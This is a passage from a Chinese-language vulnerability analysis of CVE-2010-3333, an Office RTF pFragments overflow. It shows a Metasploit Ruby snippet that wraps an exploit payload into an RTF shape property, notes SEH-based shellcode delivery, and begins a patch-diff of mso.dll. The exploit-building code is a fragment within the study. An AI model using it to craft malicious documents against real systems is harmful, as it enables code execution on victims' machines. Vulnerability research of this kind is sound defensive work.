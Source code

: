 ```ruby
        #* 将 payload 包装进 RTF 文件
        content  = "{\\rtf1"
        content << "{\\shp"             # shape
        content << "{\\sp"              # shape property
        content << "{\\sn pFragments}"  # property name
        content << "{\\sv #{sploit}}"   # property value
        content << "}"
        content << "}"
        content << "}"

        print_status("Creating '#{datastore['FILENAME']}' file ...")
        file_create(content)

    end
```

其具体执行方式如下图所示（转自 [Sp4n9x](#reference) 的博客）

![seh](images/Vulnerability%20Investigation/CVE-2010-3333seh.png)

MSF 生成的 Exp 选择了采取较为典型的基于 SEH 的攻击手段写入 Shellcode，如漏洞分析部分所言也可以通过 ROP 技术达到相同的效果，在此不过多赘述

## 漏洞修复

由于该漏洞较为久远且 Microsoft 的网站发生了很大改变，现在很难找得到当时的补丁。作为替代，在此转述 [Sp4n9x](#reference) 漏洞复现博客的漏洞修复部分

> 之前分析漏洞原因时，关键漏洞函数位于“12.0.4518.1014”版 mso.dll 的 sub_32E5955E 函数中，通过函数名，我们可以在 Matched Functions 中快速定位，找到之后，双击，就可以打开“12.0.4518.1014”版 mso.dll 的 sub_32E5955E 函数与“12.0.6545.5004”版 mso.dll 中的对应函数 sub_32E0239B 的 FlowGraphs。通过对比代码块，我们可以快速定位到添加补丁代码的位置。下图是两个函数代码块的对比图：
>